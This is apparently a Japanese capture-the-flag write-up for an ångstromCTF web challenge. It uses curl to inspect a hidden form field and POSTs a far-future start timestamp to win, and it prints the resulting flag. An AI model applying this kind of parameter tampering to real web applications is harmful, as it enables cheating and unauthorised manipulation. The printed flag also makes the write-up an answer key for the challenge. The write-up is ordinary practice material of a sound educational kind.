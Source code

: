 # Celeste Speedrunning Association:web:20pts
I love Celeste Speedrunning so much!!! It's so funny to watch!!!  
[Here's my favorite site!](https://mount-tunnel.web.actf.co/)  

# Solution
リンクが渡される。  
```bash
$ curl https://mount-tunnel.web.actf.co/
Welcome to Celeste speedrun records!!!<br>
Current record holders (beat them at <current URL>/play for a flag!):<ol>
<li>Old Lady: 0 seconds</li>
<li>Madeline: 10 seconds</li>
<li>Badeline: 10.1 seconds</li></ol>
$ curl https://mount-tunnel.web.actf.co/play

<form action="/submit" method="POST">
  <input type="text" style="display: none;" value="1682300461.9167948" name="start" />
  <input type="submit" value="Press when done!" />
</form>
```
見てみると、`/play`にボタンがあり、開始時間として既に設定されたUNIXタイムな値が送信されるようだ。  
レコードホルダーに勝てばよいようなので、開始時間が未来となる大きな値をPOSTしてみる。  
```bash
$ curl -X POST https://mount-tunnel.web.actf.co/submit -d "start=9999999999"
you win the flag: actf{wait_until_farewell_speedrun}
```
flagが得られた。  

## actf{wait_until_farewell_speedrun}